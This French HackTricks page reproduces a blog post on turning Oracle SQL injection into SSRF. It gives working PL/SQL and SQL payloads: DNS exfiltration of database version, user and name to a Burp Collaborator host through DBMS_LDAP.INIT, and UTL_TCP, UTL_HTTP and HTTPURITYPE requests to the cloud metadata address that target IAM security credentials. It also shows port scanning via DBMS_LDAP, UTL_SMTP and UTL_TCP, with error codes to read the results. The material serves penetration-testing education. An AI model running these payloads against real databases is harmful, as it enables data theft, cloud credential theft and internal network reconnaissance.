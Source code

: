 # Injection Oracle

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

**Servez ce post une copie de la machine wayback du post supprimé de [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/)**.

## SSRF

Utiliser Oracle pour effectuer des requêtes HTTP et DNS hors bande est bien documenté mais en tant que moyen d'exfiltrer des données SQL dans des injections. Nous pouvons toujours modifier ces techniques/fonctions pour effectuer d'autres SSRF/XSPA.

Installer Oracle peut être vraiment douloureux, surtout si vous voulez configurer une instance rapide pour essayer des commandes. Mon ami et collègue chez [Appsecco](https://appsecco.com), [Abhisek Datta](https://github.com/abhisek), m'a dirigé vers [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c) qui m'a permis de configurer une instance sur une machine Ubuntu t2.large AWS et Docker.

J'ai exécuté la commande docker avec le drapeau `--network="host"` afin de pouvoir imiter Oracle comme une installation native avec un accès réseau complet, pour la durée de cet article de blog.
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### Packages Oracle qui prennent en charge une spécification d'URL ou de numéro d'hôte/port <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

Afin de trouver des packages et des fonctions qui prennent en charge une spécification d'hôte et de port, j'ai effectué une recherche Google sur la [Documentation en ligne de la base de données Oracle](https://docs.oracle.com/database/121/index.html). Plus précisément,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
La recherche a renvoyé les résultats suivants (pas tous peuvent être utilisés pour effectuer un réseau sortant)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

Cette recherche rudimentaire omet évidemment des packages comme `DBMS_LDAP` (qui permet de passer un nom d'hôte et un numéro de port) car [la page de documentation](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) vous dirige simplement vers un [emplacement différent](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360). Par conséquent, il peut y avoir d'autres packages Oracle qui peuvent être abusés pour effectuer des requêtes sortantes que j'ai pu manquer.

Quoi qu'il en soit, examinons certains des packages que nous avons découverts et listés ci-dessus.

**DBMS\_LDAP.INIT**

Le package `DBMS_LDAP` permet l'accès aux données des serveurs LDAP. La fonction `init()` initialise une session avec un serveur LDAP et prend un nom d'hôte et un numéro de port comme argument.

Cette fonction a été documentée auparavant pour montrer l'exfiltration de données via DNS, comme ci-dessous
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
Cependant, étant donné que la fonction accepte un nom d'hôte et un numéro de port comme arguments, vous pouvez l'utiliser pour fonctionner comme un scanner de ports également.

Voici quelques exemples
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
Un `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` indique que le port est fermé alors qu'une valeur de session indique que le port est ouvert.

**UTL\_SMTP**

Le package `UTL_SMTP` est conçu pour envoyer des e-mails via SMTP. L'exemple fourni sur le [site de documentation Oracle montre comment vous pouvez utiliser ce package pour envoyer un e-mail](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478). Pour nous, cependant, l'aspect intéressant est la capacité de fournir une spécification d'hôte et de port.

Un exemple rudimentaire est montré ci-dessous avec la fonction `UTL_SMTP.OPEN_CONNECTION`, avec un délai d'attente de 2 secondes.
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
Un `ORA-29276: timeout de transfert` indique que le port est ouvert mais qu'aucune connexion SMTP n'a été établie, tandis qu'un `ORA-29278: erreur transitoire SMTP : 421 Service non disponible` indique que le port est fermé.

**UTL\_TCP**

Le package `UTL_TCP` et ses procédures et fonctions permettent [la communication basée sur TCP/IP avec des services](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). S'il est programmé pour un service spécifique, ce package peut facilement devenir un moyen d'accéder au réseau ou d'effectuer des requêtes côté serveur complètes, car tous les aspects d'une connexion TCP/IP peuvent être contrôlés.

L'exemple [sur le site de documentation Oracle montre comment vous pouvez utiliser ce package pour établir une connexion TCP brute afin de récupérer une page web](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Nous pouvons le simplifier un peu plus et l'utiliser pour faire des requêtes à l'instance de métadonnées par exemple ou à un service TCP/IP arbitraire.
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
Intéressantement, en raison de la capacité à créer des requêtes TCP brutes, ce package peut également être utilisé pour interroger le service de méta-données de l'Instance de tous les fournisseurs de cloud, car le type de méthode et les en-têtes supplémentaires peuvent tous être passés dans la requête TCP.

**UTL\_HTTP et Requêtes Web**

Peut-être la technique la plus courante et largement documentée dans chaque tutoriel Oracle SQL Injection Out of Band est le [`UTL_HTTP` package](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070). Ce package est défini par la documentation comme - `The UTL_HTTP package makes Hypertext Transfer Protocol (HTTP) callouts from SQL and PL/SQL. You can use it to access data on the Internet over HTTP.`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
Vous pourriez également utiliser cela pour effectuer un scan de ports rudimentaire avec des requêtes comme
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
Un `ORA-12541: TNS:no listener` ou un `TNS:operation timed out` est un signe que le port TCP est fermé, tandis qu'un `ORA-29263: HTTP protocol error` ou des données sont un signe que le port est ouvert.

Un autre package que j'ai utilisé dans le passé avec un succès variable est la [`GETCLOB()` méthode du type abstrait `HTTPURITYPE` d'Oracle](https://docs.oracle.com/database/121/ARPLS/t\_dburi.htm#ARPLS71705) qui vous permet d'interagir avec une URL et fournit un support pour le protocole HTTP. La méthode `GETCLOB()` est utilisée pour récupérer la réponse GET d'une URL sous forme de [type de données CLOB.](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
Apprenez & pratiquez le hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez & pratiquez le hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
